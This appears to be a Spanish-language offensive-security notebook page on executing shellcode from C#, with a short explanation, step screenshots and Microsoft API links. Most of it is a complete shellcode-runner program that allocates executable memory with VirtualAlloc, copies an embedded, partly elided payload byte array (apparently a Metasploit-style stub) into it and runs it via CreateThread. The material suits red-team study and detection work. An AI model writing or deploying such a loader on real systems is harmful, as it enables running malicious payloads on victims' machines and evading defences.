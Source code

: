 # Shellcode Execution C\#

Consiste en crear un nuevo proceso .exe, en el cual vamos a ejectuar nuestra shellcode.&#x20;

Para esto vamos a:

* reservar un espacio en memoria del tamaño de la shellcode
* copiar la shellcode al espacio creado
* ejecutar lo que tengamos en la direccion de memoria creada
* no cerrar el programa después de ejecutar el programa



## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ConsoleApp2
{

    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds);

        public const uint MEM_COMMIT = 0x00001000;
        public const uint MEM_RESERVE = 0x00002000;

        public const uint PAGE_EXECUTE_READWRITE = 0x40;

        static void Main(string[] args)
        {
            byte[] buf = new byte[650] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x51,0x48,0x8b,0x52,0x18,0x56,0x48,
                0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
                                                  . . . 
                0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,
                0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,
                0xb5,0xa2,0x56,0xff,0xd5
             };

            // Crear un espacio en la memoria para guardar el shelloce
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)buf.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

            // Copiar el Shellcode al espacio de memoria creado
            Marshal.Copy(buf, 0, addr, buf.Length);

            // Crear un thread (hilo) que ejecute el shellcode en el espacio de memoria creado
            IntPtr thread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            // No cerrar el programa 
            WaitForSingleObject(thread, 0xFFFFFFFF);

        }
    }
}
```
{% endcode %}



### Pasos

1.  Crear espacio en memoria con VirtualAlloc&#x20;

    <div align="left">

    <figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

    </div>
2. Copiar a este espacio de memoria la shellcode&#x20;

<div align="left">

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

</div>

3. Ejecutar la shellcode con CreateThread

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

### Funciones

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc" %}

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-7.0" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject" %}





##

###

